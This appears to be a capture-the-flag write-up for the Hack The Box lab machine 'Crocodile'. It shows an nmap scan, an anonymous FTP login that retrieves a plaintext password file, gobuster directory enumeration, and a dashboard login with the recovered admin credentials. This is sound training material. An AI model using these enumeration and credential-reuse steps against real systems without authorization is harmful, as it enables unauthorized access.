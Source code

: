 This box is about "FTP".

### Scan
```shell
┌──(kali㉿kali)-[~/htb]
└─$ nmap -sC -sV 10.129.89.19  
Starting Nmap 7.92 ( https://nmap.org ) at 2022-05-31 16:15 EDT
Nmap scan report for 10.129.89.19
Host is up (0.017s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-r--r--    1 ftp      ftp            33 Jun 08  2021 allowed.userlist
|_-rw-r--r--    1 ftp      ftp            62 Apr 20  2021 allowed.userlist.passwd
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.10.15.233
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Smash - Bootstrap Business Template
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Unix
```

### Enumerate FTP

> The File Transfer Protocol (FTP) is a standard communication protocol used to transfer
computer files from a server to a client on a computer network. FTP users may
authenticate themselves with a clear-text sign-in protocol, generally using a username
and password. However, they can connect anonymously if the server is configured to
allow it.

Users can connect to the FTP server using "anonymous" account without password. Notice ```ftp-anon: Anonymous FTP login allowed (FTP code 230)```.

```shell
┌──(kali㉿kali)-[~/htb]
└─$ ftp 10.129.89.19
Connected to 10.129.89.19.
220 (vsFTPd 3.0.3)
Name (10.129.89.19:kali): anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||40679|)
150 Here comes the directory listing.
-rw-r--r--    1 ftp      ftp            33 Jun 08  2021 allowed.userlist
-rw-r--r--    1 ftp      ftp            62 Apr 20  2021 allowed.userlist.passwd
226 Directory send OK.
ftp> get allowed.userlist
local: allowed.userlist remote: allowed.userlist
229 Entering Extended Passive Mode (|||48500|)
150 Opening BINARY mode data connection for allowed.userlist (33 bytes).
100% |***********************************************************************|    33       36.12 KiB/s    00:00 ETA
226 Transfer complete.
33 bytes received in 00:00 (1.78 KiB/s)
ftp> get a
allowed.userlist        allowed.userlist.passwd
ftp> get allowed.userlist.passwd
local: allowed.userlist.passwd remote: allowed.userlist.passwd
229 Entering Extended Passive Mode (|||46198|)
150 Opening BINARY mode data connection for allowed.userlist.passwd (62 bytes).
100% |***********************************************************************|    62      992.57 KiB/s    00:00 ETA
226 Transfer complete.
62 bytes received in 00:00 (3.46 KiB/s)

┌──(kali㉿kali)-[~/htb]
└─$ cat allowed.userlist
aron
pwnmeow
egotisticalsw
admin
                                                                                                                    
┌──(kali㉿kali)-[~/htb]
└─$ cat allowed.userlist.passwd   
root
Supersecretpassword1
@BaASD&9032123sADS
rKXM59ESxesUFHAd
```

### Enumerate Web App

Btw, **Wappalyzer** is a really good plug-in for browser. We can learn about the tech used on that website.

Base on that, we could even update our command below with ```-x php, html```.

```shell
┌──(kali㉿kali)-[~/htb]
└─$ gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u 10.129.89.19
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.89.19
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/05/31 16:26:19 Starting gobuster in directory enumeration mode
===============================================================
/assets               (Status: 301) [Size: 313] [--> http://10.129.89.19/assets/]
/css                  (Status: 301) [Size: 310] [--> http://10.129.89.19/css/]   
/js                   (Status: 301) [Size: 309] [--> http://10.129.89.19/js/]    
/fonts                (Status: 301) [Size: 312] [--> http://10.129.89.19/fonts/] 
/dashboard            (Status: 301) [Size: 316] [--> http://10.129.89.19/dashboard/]
```

Go to /dashboard, it redirects to login page.

![login page](/img/htb/crocodile/login.png)

login with ```admin:rKXM59ESxesUFHAd```

![flag page](/img/htb/crocodile/flag.png)

